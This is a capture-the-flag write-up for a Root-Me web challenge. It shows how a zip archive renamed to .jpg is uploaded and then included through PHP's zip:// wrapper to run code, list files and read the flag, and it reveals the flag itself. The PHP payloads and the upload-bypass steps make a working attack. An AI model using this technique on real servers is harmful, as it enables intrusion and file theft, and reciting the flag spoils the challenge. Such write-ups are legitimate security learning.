




In this challenge we exploit `LFI` using the `zip` wrapper.

First, we can see it checks whether this is `jpg` only by the extension, so we can upload whatever we want.



Second, after uploading the image, we redirect to this page:

`http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=dsRbA9R5j`, and we can see this attribute that includes our image.
It shows us also the path, which is `tmp/uploaddsRbA9R5j.jpg`.

```html

```

We can see `LFI` is possible here for example, when we do `id=../upload/DI9u2XWQd`:
```
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=../upload/DI9u2XWQd
```

Okay, let's try to inject input into `?page`:

After checking, we find that we can't use `.`, luckily we know the path of the uploads, which is `/tmp/upload/`.

Second, I've tried multiple wrappers, I've found that we can use those wrappers: `zip`, `glob`, `file`.



#### Exploit

I've found this paper [file inclusion owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion), and there it talks about `PHP ZIP`, and the way we can use `zip://` wrapper for getting `RCE`.

In general, the structure of this `zip` wrapper is:
```
zip:///filename_path#internal_filename
```
When the zip archive is `/filename_path`, and the file we access inside the zip that appears after the `#` is `internal_filename`.

So, the idea is to do this stages (copied from the paper):

1. Create the PHP file to be executed, for example with the content `<?php phpinfo(); ?>` and save it as `code.php`.
2. Compress it as a new ZIP file called `target.zip`.
3. Rename the target.zip file to `target.jpg` to bypass the extension validation and upload it to the target website as your avatar image.
4. Supposing that the `target.jpg` file is stored locally on the server to the `../avatar/target.jpg` path, exploit the vulnerability with the `PHP ZIP` wrapper by injecting the following payload to the vulnerable URL: `zip://../avatar/target.jpg%23code` (remember that %23 corresponds to #).

In our case we need to know there is another constraint that we haven't mention yet, which is the length. 
We can't give payload which is longer than `33` chars.

And now, let's start building the payload!

```bash
echo "<?php phpinfo() ?>" > c.php # create PoC of RCE
zip target.zip c.php # create zip archive
mv target.zip target.jpg
```

And now uploading to the website, and taking the random string, in our case `7mEsTAIn9`.

Then, we create our payload:
```
?page=zip://tmp/upload/7mEsTAIn9.jpg%23c
```
Notice that the `zip` wrapper ignores the `jpg` extension and treat this as zip archive.



Know, we want to read the content of the directory, and then cat the password.

So, we upload this php code:
```php
<?php print_r(scandir(".")); ?>
```

And get back as response:
```php
Array
(
    [0] => .
    [1] => ..
    [2] => ._nginx.http-level.inc
    [3] => ._nginx.server-level.inc
    [4] => ._perms
    [5] => ._php-fpm.pool.inc
    [6] => ._run
    [7] => .git
    [8] => .gitignore
    [9] => flag-mipkBswUppqwXlq9ZydO.php
    [10] => index.php
    [11] => tmp
    [12] => upload.php
    [13] => view.php
)
```
Let's read `flag-mipkBswUppqwXlq9ZydO.php`:
This is our payload:
```php
<?php echo htmlentities(file_get_contents("flag-mipkBswUppqwXlq9ZydO.php")); ?>
```
And get back as response:
```php
<?php $flag="lf1-Wr4pp3r_Ph4R_pwn3d"; ?>
```



**Flag:** ***`lf1-Wr4pp3r_Ph4R_pwn3d`***
